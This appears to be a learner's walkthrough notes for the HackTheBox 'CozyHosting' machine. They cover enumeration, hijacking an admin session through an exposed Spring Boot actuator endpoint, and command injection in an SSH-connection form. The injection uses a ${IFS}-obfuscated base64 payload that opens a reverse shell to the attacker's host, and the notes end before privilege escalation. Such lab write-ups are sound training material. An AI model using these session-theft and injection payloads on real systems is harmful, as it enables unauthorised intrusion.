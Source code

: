 CozyHosting

HackTheBox - Linux - Easy

Enumaration:

Scanning all TCP Ports
nmap -sV 10.129.229.88 -p-
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)

Scanning all UDP Ports

Website
when going to http://10.129.229.88 i get redirected to http://cozyhosting.htb/
adding domain to /etc/hosts
Website has a login field "Designed by BootstrapMade" making a request to "/login"
The site dosnt tell if the username or password is wrong "Invalid username or password"
Website storage: just cookie
Website sourcecode: nothing interessting

Scanning directories
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://cozyhosting.htb
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
/http%3A%2F%2Fwww     (Status: 400) [Size: 435]
/http%3A%2F%2Fyoutube (Status: 400) [Size: 435]
/%C0                  (Status: 400) [Size: 435]
/http%3A%2F%2Fblogs   (Status: 400) [Size: 435]
/http%3A%2F%2Fblog    (Status: 400) [Size: 435]
/**http%3A%2F%2Fwww   (Status: 400) [Size: 435]
/27079%5Fclassicpeople2%2Ejpg (Status: 200) [Size: 0]
/children%2527s_tent  (Status: 200) [Size: 0]
/tiki%2Epng           (Status: 200) [Size: 0]
/Wanted%2e%2e%2e      (Status: 200) [Size: 0]
/How_to%2e%2e%2e      (Status: 200) [Size: 0]
/External%5CX-News    (Status: 400) [Size: 435]
/squishdot_rss10%2Etxt (Status: 200) [Size: 0]
/b33p%2Ehtml          (Status: 200) [Size: 0]
/help%2523drupal      (Status: 200) [Size: 0]
<snip>

many other 200 that just show an error page

check if there is something behind /admin unprotected
dirb http://cozyhosting.htb/admin
> nothing


Scanning vhosts
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cozyhosting.htb
no other vhosts


Trying SQL injection
' OR 1=1 -- 

Trying SQLMAP with a request copied from burp
sqlmap -r request.txt --batch 
[07:22:54] [WARNING] POST parameter 'username' does not seem to be injectable
[07:24:04] [WARNING] POST parameter 'password' does not seem to be injectable


Errorpages
If dir not found: 404

Whitelabel Error Page
This application has no explicit mapping for /error, so you are seeing this as a fallback.
Fri Jul 04 12:37:03 UTC 2025
There was an unexpected error (type=Not Found, status=404).


but on /error there is statuscode 999

Whitelabel Error Page
This application has no explicit mapping for /error, so you are seeing this as a fallback.
Fri Jul 04 12:37:46 UTC 2025
There was an unexpected error (type=None, status=999).


Researched "Whitelabel Error Page"
Its from Springboot a Framwork for Java
https://stackoverflow.com/questions/61029340/spring-security-redirects-to-page-with-status-code-999

it seems that statuscode 999 is somehow linked to the login
curl -X POST http://cozyhosting.htb/error \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Cookie: JSESSIONID=DBEF37A92CC770C28D150DFA352B9278"

This reseted my cookie but i got the same response
{"timestamp":"2025-07-04T12:49:12.019+00:00","status":999,"error":"None"}

List of bootspring endpoint
https://docs.spring.io/spring-boot/reference/actuator/endpoints.html added them to > endpoint.txt

gobuster dir -w endpoint.txt -u http://cozyhosting.htb/actuator
/health               (Status: 200) [Size: 15]          -> Shows application health information
/env                  (Status: 200) [Size: 4957]        -> Exposes properties from Spring’s ConfigurableEnvironment. Subject to sanitization.
/sessions             (Status: 200) [Size: 98]          -> Allows retrieval and deletion of user sessions from a Spring Session-backed session store. Requires a servlet-based web      application that uses Spring Session.

/mappings             (Status: 200) [Size: 9938]        -> Displays a collated list of all @RequestMapping paths.
/beans                (Status: 200) [Size: 127224]      -> Displays a complete list of all the Spring beans in your application.


curl http://cozyhosting.htb/actuator/sessions
{"D4812344A2A37EB43CE139342167A32D":"UNAUTHORIZED","DF7A903D1CF0D22DD14CDCCAD38847D0":"kanderson"}

The unauthorized is my cookie, i replace mine with the one from kanderson
-> going to /admin im logged im as him


Enumaration of Adminpannel
kanderson got a notification:
    Keep your hosts patched!
    3 hosts require your attention.

There a overview of which hosts are patch and which not.
Theres also a function: Include host into automatic patching
    Please note
    For Cozy Scanner to connect the private key that you received upon registration should be included in your host's .ssh/authorised_keys file.

Connection settings need Hostname and Username
i tried: 
suspiciousmcnulty & kanderson -> Host from list above
cozyhosting.htb & kanderson
127.0.0.1 & kanderson

in burp i saw this tool connects to 
request POST /executessh
response GET /admin?error=ssh:%20Could%20not%20resolve%20hostname%20hostname:%20Temporary%20failure%20in%20name%20resolution 4

this looks like a script that just executs SSH this might be exploitable
host=10.10.14.94&username=kanderson$(id)
kandersonuid=1001(app)

the app filters for whitespaces in the username, so i used this to get a shell
host=10.10.14.94&username=kanderson%60echo%24%7BIFS%7DYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC45NC80NDQ0IDA%2BJjEK%7Cbase64%24%7BIFS%7D-d%7Cbash%60

upgrade shell: python3 -c 'import pty; pty.spawn("/bin/bash")'


--> NEXT STEP: SEARCH CONFIG FILES

